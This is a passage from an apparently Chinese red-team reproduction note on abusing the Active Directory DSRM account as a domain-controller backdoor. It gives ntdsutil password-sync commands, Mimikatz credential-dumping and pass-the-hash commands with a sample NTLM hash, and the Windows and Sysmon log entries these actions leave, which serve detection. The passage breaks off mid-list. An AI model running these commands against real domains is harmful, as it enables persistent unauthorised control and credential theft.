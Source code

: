 **实际测试结果**：
```dos
C:\Users\Administrator>ntdsutil
ntdsutil: set dsrm password
重置 DSRM 管理员密码: reset password on server null
请键入 DS 还原模式 Administrator 帐户的密码: *********
请确认新密码: *********
密码设置成功。
重置 DSRM 管理员密码: Q
ntdsutil: Q
```

### 0x01 使用域帐户同步DSRM账户密码
以域管理员身份登录DC，启动管理员权限的CMD，运行：
```dos
NTDSUTIL
SET DSRM PASSWORD
SYNC FROM DOMAIN ACCOUNT xiaomi
Q
Q
```

### 0x02 使用DSRM作为活动目录的后门
DSRM账户本质上是DC的本地`Administrator`账户，攻击者可利用其凭据通过网络登录DC。步骤如下：
1. 创建域用户（如`xiaomi`）并设置已知密码。
2. 使用`ntdsutil`同步DSRM密码（参考0x01）。
3. 使用Mimikatz验证DSRM账户：
   ```dos
   mimikatz "sekurlsa::logonpasswords" exit
   ```

### 0x03 使用DSRM凭证的哈希传递攻击
当`DsrmAdminLogonBehavior=2`时，攻击者可利用DSRM账户的NTLM哈希进行PtH攻击。步骤如下：
1. 确认注册表配置：
   ```reg
   HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior = 2
   ```
2. 使用Mimikatz执行PtH：
   ```dos
   mimikatz "privilege::debug" "sekurlsa::pth /domain:xiaomi.org /user:administrator /ntlm:7c08d63a2f48f045971bc2236ed3f3ac" exit
   ```

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 测试留痕

- **Windows安全日志（事件ID 4794）**：
  ```plaintext
  EventID: 4794
  Source: Microsoft-Windows-Security-Auditing
  Description: An attempt was made to set the Directory Services Restore Mode administrator password.
  Account Name: Administrator
  Account Domain: JACKMA
  ```
- **Sysmon日志（事件ID 1）**：
  ```plaintext
  EventID: 1
  Image: C:\Windows\System32\ntdsutil.exe
  CommandLine: ntdsutil.exe
  ParentImage: C:\Windows\System32\cmd.exe
  User: JACKMA\Administrator
  IntegrityLevel: High
  ```
- **Sysmon日志（事件ID 13）**：